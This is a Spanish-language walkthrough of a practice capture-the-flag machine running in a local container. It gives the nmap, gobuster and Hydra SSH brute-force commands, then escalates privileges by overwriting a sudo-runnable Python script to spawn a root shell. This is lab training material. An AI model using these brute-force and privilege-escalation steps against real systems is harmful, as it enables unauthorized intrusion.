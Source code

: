 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh
```

![[Pasted image 20250207091231.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250207091255.png]]

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![[Pasted image 20250207091554.png]]

Nos metemos en la web:

![[Pasted image 20250207091438.png]]

JIFGHDS87GYDFIGD

Fuerza Bruta con **Hydra**:

```Bash
hydra -L /usr/share/wordlists/rockyou.txt.gz -p JIFGHDS87GYDFIGD ssh://172.17.0.2
```

![[Pasted image 20250207092055.png]]

Nos conectamos con **SSH**:

```Bash
ssh carlos@172.17.0.2
```

![[Pasted image 20250207091820.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250207091911.png]]

```Bash
cd /opt
```

![[Pasted image 20250207091948.png]]

```Bash
ls
```

![[Pasted image 20250207092038.png]]

```Bash
cat script.py
```

![[Pasted image 20250207092127.png]]

```Bash
rm script.py
```

![[Pasted image 20250207092423.png]]

```Bash
nano script.py
```

![[Pasted image 20250207092304.png]]

```Python
import os

os.system("/bin/bash")
```

![[Pasted image 20250207092324.png]]

```
chmod +x script.py
```

![[Pasted image 20250207092514.png]]

```Bash
sudo /usr/bin/python3 /opt/script.py
```

![[Pasted image 20250207092608.png]]

```Bash
whoami
```

![[Pasted image 20250207092639.png]]

